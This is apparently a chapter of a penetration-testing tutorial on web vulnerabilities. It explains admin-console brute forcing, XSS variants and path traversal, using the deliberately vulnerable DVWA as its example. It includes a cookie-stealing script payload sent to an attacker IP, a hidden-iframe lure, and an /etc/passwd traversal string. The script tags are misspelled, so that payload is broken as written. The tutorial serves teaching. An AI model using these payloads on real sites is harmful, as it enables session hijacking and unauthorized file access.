

Chapter 9: Web-based Vulnerabilities
In this chapter we will explain how to identify and exploit the most important web-based vulnerabilities. I won’t enter into a super deep explanation of all vulnerabilities. I am considering writing individual posts with more detail about the most important attacks in the future, but here only the top of the iceberg will be covered.
Admin Consoles
Is usual to find some admin consoles behind some directory of the url like /admin.
We can use a tool like gobuster with the -dir option to Brute Force a webpage searching for common directories using a wordlist. My wordlist recommendation is the raft-medium-directiries-lowercase. We can also use dirbuster
Lets asume that we have used gobuster and it has found a sucpicious directory with a name like /phpmyadmin.
Usually, this consoles are protected with a username/password login. Some software has default credentials like admin/admin, admin/root, /, etc. If it is a well known software, in this case php, we could search for the default credentials and try them, we could have luck and gain access with them.
However, in most cases the default credentials won’t work. Then we will have to try a brute force attack. We could use hydra or create our own script.
Sometimes won’t be just bruteforcing the username and password. Is it possible that the webpage has a token or cookies that must be used. I recommend to use Burp Suite to analyze how is the request being made.
If a token defined in the html is used, I reccomend to create your own script with python or bash, but you can also use the Burp Suite Intruder method. If you want to try a set of passwords for one username, you can use the Sniper type of attack. However, if you need to change different fiels for each attempt, you will need to use a Pitchfork attack.
Values like a token or cookie have to bee extracted from the html, you can do this wit Burp using a Recursive Grep payload (Grep - Extract). There you can define an expression that will indicate the starting of the value, and the expression that will define the end of the value. For the username/password, you can use a Simple list (wordlist).
Cross-Site Scripting (XSS)
An XSS Vulnerability allows an attacker to inject input that is displayed on a web page and it gets executed. This happens when the input is not correctly sanitized.
There are three types of XSS variants: stored, reflected and DOM-based.
Stored XSS attacks
They occur whrn the input that the attacker send is stored in a database or cache and it persist there. When the server uses the infected value, and serves the web-page to any user, it will be victim of the exploit. They tend to appear at websites that have a comment section or forums.
Reflected XSS attacks
This type of XSS attack usually have the malicious code in the same link/URL. The web application uses this value defined in the url and displays it inside the web page, being executed. The victim will be the user interacting with that link.
DOM-based XSS attacks
They take place solely within the page’s DOM (Document Object Model) and the payload is executed as a result of modifying the DOM in the victim’s browser. It usually happens when when JavaScript takes data from teh attacker and adds it to a skin that supports dynamic code execution, like eval()or innerHTML.
While DOM-based XSS occurs by processing data from an untrusted source by writing data to a potentially dangerous sink within the DOM, reflected XSS occurs when an application obtains data in an HTTP request and includes that data within the immediate response in an unsafe way. Thus, this is the main difference between DOM based XSS and reflected XSS.
When you are searching for XSS entry points, you want to search for search fields which don’t sanitize the input displayed as output in subsequent pages. Once we have the vulnerable point identified, we can start testing special input to see if the return is unfiltered.
Dangerous characters are: < > ' " { } ;. If this characters are not removed, the web app may be vulnerable.
We may take into consideration HTML encoding and URL encoding. If we are able to inject < > and our input is injected inside a div, we would need to inject the <script> tag before adding the malicious code.
Here you can find a huge list of different payloads. Note that not all of them will work. You must identify your situation and search for the best payload.
XSS can be used to deliver client-side attacks since they allow the redirection of the victim’s browser to a location that the attacker may control. The attacker could inject an iframe where the src points to the IP controlled by the attacker. THe iframe can look like this in order to be invisible: <iframe src=http://10.11.12.13/test height="0" width="0"></iframe>. When any user enters to that page, the browser will request for the “test” resource and the attacker could gather information about the victim.
However, XSS are more used for stealing cookies and session information when the app uses an insecure session management (When the cookies doesn’t have the SOecure and HttpOnly flag). - The Secure flag tells the browser to only send the cookie over encrypted connections (SSL connections). - The HttpOnly doesn’t allow JavaScript to access to the cookie. If this flag is not set, using XSS we could retrieve cookies.
Lets create a payload example:
1
<scritp> new Image().src="http://10.11.12.13/test.jpg?cookie="+document.cookie;</sctipt>
The document.cookie will retrieve the cookies that the victim is using and they will be sent along with the GET request. Then, the attacker will be able to see the cookie when the GET request is recieved. The attacker can use this cookie to hijack the session of the victim.
Directory/Path Traversal Vulnerabilities
This vulnerability allows the attacker to gain unauthorized access to files that are not supposed to be accessed through the web app. This vuln also occurs when the input is not validated, so the attacker can manipulate paths using ../.
Usually, this vulnerability is exploited to obtain sensitive information, but in some situations it can lead to file inclusions in specific directories ond overwritte config files.
If we want to identify this vulnerability, we should search for file references and modify them to see if they are treated as we want.
For example, if the URL looks like this: https://examplesite.com/file.php?file=login, we can try to modify the file value with some path traversal payloads, for example ../../../../../../../../etc/passwd (we add several “../” to make sure we set the root (/) directory as the current one, and then go to “/etc/passwd”). In the next image you can see this vulnerability beeing exploit in the DamnVulnerableWebApplication
